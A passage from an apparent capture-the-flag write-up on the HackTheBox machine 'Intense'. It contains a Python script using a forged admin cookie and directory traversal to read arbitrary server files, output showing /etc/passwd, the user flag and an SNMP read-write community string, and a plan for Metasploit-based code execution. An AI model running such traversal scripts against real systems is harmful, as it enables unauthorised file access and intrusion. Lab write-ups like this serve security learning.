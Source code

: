 Nope! Simple LFI flaw.

### Scripting the LFI

I made a simple, messy script.

```python
from requests import post

cookies = {'auth': 'dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMQO3VzZXJuYW1lPWFkbWluO3NlY3JldD1mMWZjMTIwMTBjMDk0MDE2ZGVmNzkxZTE0MzVkZGZkY2FlY2NmODI1MGUzNjYzMGMwYmM5MzI4NWMyOTcxMTA1Ow==.Kj3kZb1zkyyn0eUdcAEy/u2k0TZJWvUAIDCmPuLqdNU='}

while True:
    read = input('>>> ')

    cmd, *folder = read.split()

    if cmd == 'ls':
        loc = '../' * 8 + '..' + ''.join(folder)
        r = post('http://intense.htb/admin/log/dir', cookies=cookies, data={'logdir': loc})
        
        files = '\n'.join(eval(r.text))
        print(files)
    else:
        loc = '../' * 8 + '..' + read
        r = post('http://intense.htb/admin/log/view', cookies=cookies, data={'logfile': loc})

        print(r.text.rstrip())
```

If we read `/etc/passwd`, we see there's a user called `user`.

```text
>>> /home/user/user.txt
6b5...
```

Now to find a way to get foothold.

After some searching \(and some `nmap`\) we find SNMP is open, so let's see what we can do with that.

```text
>>> /etc/snmp/snmpd.conf
[...]
 rocommunity public  default    -V systemonly
 rwcommunity SuP3RPrivCom90
[...]
```

There's a `rwcommunity` called `SuP3RPrivCom90`. RW Communities can be [leveraged for RCE](https://mogwailabs.de/en/blog/2019/10/abusing-linux-snmp-for-rce/). To do this, I'm going to use the metasploit `linux/snmp/net_snmpd_rw_access` module.

